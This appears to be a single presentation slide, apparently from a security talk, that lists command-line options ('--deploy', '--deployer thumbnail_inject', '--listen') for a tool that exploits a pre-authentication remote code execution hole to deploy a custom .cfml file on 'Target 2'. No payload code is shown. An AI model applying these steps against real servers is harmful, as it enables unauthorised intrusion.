

# Target 2
We will use:
--deploy /tmp/cmd.cfml
Your custom .cfml file
--deployer thumbnail_inject
Our deployer, which will exploit pre-auth RCE
--listen eth1
Optional, if you have more than one interface, specify which to serve your cfml from.